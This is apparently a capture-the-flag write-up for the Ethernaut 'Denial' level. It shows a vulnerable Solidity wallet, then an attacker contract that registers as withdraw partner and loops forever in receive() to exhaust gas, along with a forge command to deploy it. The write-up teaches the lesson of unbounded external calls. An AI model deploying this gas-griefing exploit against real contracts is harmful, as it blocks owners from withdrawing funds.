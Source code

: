 ## Denial Level Outline

**Difficulty : 5/10**

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xf1D573178225513eDAA795bE9206f7E311EeDEc3)

## Solution

This level has a very similar solution to level 9_King.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    Denial denial;

    constructor(address _denial) {
        denial = Denial(_denial);
        denial.setWithdrawPartner(address(this));
    }

    receive() external payable {
        while(true) {
            // lets burn some gas
        }
    }

}

interface Denial {
    function setWithdrawPartner(address) external;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Contract --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

### Important Lesson From This Level
This level demonstrates that external calls to unknown contracts can still create **denial of service attack vectors** if a fixed amount of gas is not specified.


---

##### [:arrow_left: Back To Main Menu](../README.md)

